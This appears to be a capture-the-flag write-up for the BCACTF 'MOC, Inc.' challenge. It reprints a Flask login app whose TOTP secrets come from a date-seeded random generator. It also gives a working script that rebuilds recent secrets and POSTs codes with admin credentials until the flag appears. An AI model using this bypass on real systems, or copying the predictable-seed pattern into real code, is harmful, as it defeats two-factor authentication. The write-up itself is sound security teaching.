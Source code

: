 # CTF Competition: BCACTF 5.0

### CTF Name: MOC, Inc.
**CTF Weight:** 100 points ~ 78 solves

![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/c6e6913b-5322-47c5-b0c1-262732fb63ee)


## Writeup:
This challenge requires us to login to the website to get the flag. They have provided us with the username and password or `admin` so all we need to do is find the TOTP (Time-base one time password). Fortunately, they provided the source code `app.py`.

```
from flask import Flask, request, render_template

import datetime
import sqlite3
import random
import pyotp
import sys

random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))

app = Flask(__name__)

@app.get('/')
def index():
    return render_template('index.html')

@app.post('/')
def log_in():
    with sqlite3.connect('moc-inc.db') as db:
        result = db.cursor().execute(
            'SELECT totp_secret FROM user WHERE username = ? AND password = ?',
            (request.form['username'], request.form['password'])
        ).fetchone()

    if result == None:
        return render_template('portal.html', message='Invalid username/password.')

    totp = pyotp.TOTP(result[0])

    if totp.verify(request.form['totp']):
        with open('../flag.txt') as file:
            return render_template('portal.html', message=file.read())

    return render_template('portal.html', message='2FA code is incorrect.')

with sqlite3.connect('moc-inc.db') as db:
    db.cursor().execute('''CREATE TABLE IF NOT EXISTS user (
        username TEXT UNIQUE NOT NULL,
        password TEXT NOT NULL,
        totp_secret TEXT NOT NULL
    )''')
    db.commit()

if __name__ == '__main__':
    if len(sys.argv) == 3:
        SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

        totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

        with sqlite3.connect('moc-inc.db') as db:
            db.cursor().execute('''INSERT INTO user (
                username,
                password,
                totp_secret
            ) VALUES (?, ?, ?)''', (sys.argv[1], sys.argv[2], totp_secret))
            db.commit()

        print('Created user:')
        print('  Username:\t' + sys.argv[1])
        print('  Password:\t' + sys.argv[2])
        print('  TOTP Secret:\t' + totp_secret)

        exit(0)

    app.run()
```


The vulnerability here lies in the seed used to generate the TOTP tokens. The developer based it off of the current time...

```
random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))
```


```
SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])
```

This is scary because using time alone to generate the seed is "replayable" as it isn't random at all. I can very easily write a script to get me all the previous days and calculate the TOTP values.

```
import datetime
import random
import requests
import pyotp

URL = "http://challs.bcactf.com:31772/"
SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

start_date = datetime.datetime.today() - datetime.timedelta(days=30)

for day_offset in range(31):
    current_date = start_date + datetime.timedelta(days=day_offset)
    current_date_str = current_date.strftime('%Y-%m-%d')

    random.seed(current_date_str)
    totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

    totp = pyotp.TOTP(totp_secret)

    totp_code = totp.now()

    print(f"Date: {current_date_str}, TOTP Secret: {totp_secret}, Code: {totp_code}")

    # Send the POST request with the TOTP code
    payload = {
        'username': 'admin',
        'password': 'admin',
        'totp': totp_code
    }

    response = requests.post(URL, data=payload)
    if "ctf" in response.text:
        print(response.text)
        break
```
The Results:

![image](https://github.com/Mitchellzhou1/CyberPortfolio/assets/95938232/a3974690-bf01-4802-8489-eeca664b3793)

The flag is `bcactf{rNg_noT_r4Nd0m_3n0uGH_a248dc91}`
